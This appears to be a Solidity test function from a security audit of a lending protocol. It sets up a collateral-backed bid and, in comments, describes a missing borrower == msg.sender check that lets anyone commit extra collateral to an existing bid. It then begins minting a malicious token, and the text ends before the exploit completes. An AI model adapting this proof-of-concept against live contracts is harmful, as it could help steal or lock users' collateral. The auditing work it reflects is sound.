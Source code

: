 ```solidity
    function test_cannot_withdraw_after_commitcollateral() public {
        uint256 bidId = 0;
        uint256 amount = 100;
        wethMock.transfer(address(borrower), 200);
        wethMock2.transfer(address(lender), 200);        
        wethMock2.transfer(address(borrower), 50);        

        Collateral[] memory collateral = new Collateral[](1);
        collateral[0] = Collateral({
                _collateralType: CollateralType.ERC20,
                _amount: 100,
                _tokenId: 0,
                _collateralAddress: address(wethMock)
        });
        borrower.addAllowance(
            address(wethMock),
            address(collateralManager),
            100
        );
        console.log("wtf");
        uint256 _bidId = borrower.submitBid(
            tellerV2,
            collateralManager,
            address(wethMock2),
            marketId1,
            100,
            10000,
            500,
            "metadataUri://",
            address(borrower),
            collateral
        );
    
        console.log("bidID", _bidId);
        collateralManager.commitCollateral(_bidId, collateral);
        
        lender.approveERC20(
            address(wethMock2),
            address(tellerV2),
            amount
        );
        
        uint256 collateralAmount  = collateralManager.getCollateralAmount(0, address(wethMock));
        console.log("collateralAmount ", collateralAmount);
        console.log("isbidscollateralbacked", collateralManager.isBidCollateralBacked(0));
        lender.accept(tellerV2, _bidId);
        
        assertEq(wethMock2.balanceOf(address(lender)), 100, "(S)he sent 100 wethMock2s, so 100 are left.");
        assertEq(wethMock.balanceOf(address(borrower)), 100, "The borrower submitted 100 wethMocks");
        assertEq(wethMock2.balanceOf(address(borrower)), 150, "The borrower has 150 wethMock2s.");
        
        //  Commit another token (that the borrower already has) as Collateral.
        //  Since the CollateralManager doesn't check the whether the borrower == msg.sender, 
        //  It can add a collateral to an existing bid. 
        //  attack with "wethMock" doesn't work because the escrow saves only one collateral info per one token.

        malToken = attacker.mint();
        console.log("attacker :", address(attacker));
        console.log("owner :", malToken.Owner());
        
```
